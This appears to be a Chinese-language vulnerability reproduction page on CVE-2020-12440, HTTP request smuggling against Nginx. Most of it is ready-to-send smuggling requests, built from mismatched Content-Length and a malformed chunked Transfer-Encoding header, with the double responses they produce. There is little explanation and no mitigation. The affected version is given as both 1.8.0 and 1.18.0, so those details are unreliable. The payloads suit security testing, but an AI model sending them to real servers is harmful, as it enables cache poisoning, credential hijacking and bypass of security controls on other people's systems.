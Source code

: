 （CVE-2020-12440）Nginx \<= 1.8.0 请求走私
==========================================

一、漏洞简介
------------

Nginx
1.18.0及之前版本中存在安全漏洞。攻击者可利用该漏洞进行缓存投毒，劫持凭证或绕过安全保护。

二、漏洞影响
------------

Nginx \<= 1.8.0

三、复现过程
------------

![1589967192.jpg](resource/(CVE-2020-12440)Nginx=1.8.0请求走私/media/rId24.jpg)

### Request

    GET /test.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 2

    GET /poc.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 15

### Response

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 33
    Last-Modified: Thu, 30 Apr 2020 14:36:32 GMT
    Connection: keep-alive
    ETag: "5eaae270-21"
    Accept-Ranges: bytes

    <html><h1>Test Page!</h1></html>
    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 15
    Last-Modified: Thu, 30 Apr 2020 14:35:41 GMT
    Connection: keep-alive
    ETag: "5eaae23d-f"
    Accept-Ranges: bytes

    NGINX PoC File

其他例子
--------

### Request（200 OK + 405 Method Not Allowed）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked


    46
    TRACE / HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15


    kk
    0s

### Response（200 OK + 405 Method Not Allowed）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 405 Not Allowed
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 157
    Connection: close


    <html>
    <head><title>405 Not Allowed</title></head>
    <body>
    <center><h1>405 Not Allowed</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>

### Request（200 OK + 404 Not Found）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked

    46
    GET /404 HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15

    kk
    0s

### Response（200 OK + 404 Not Found）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 404 Not Found
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 153
    Connection: keep-alive


    <html>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>
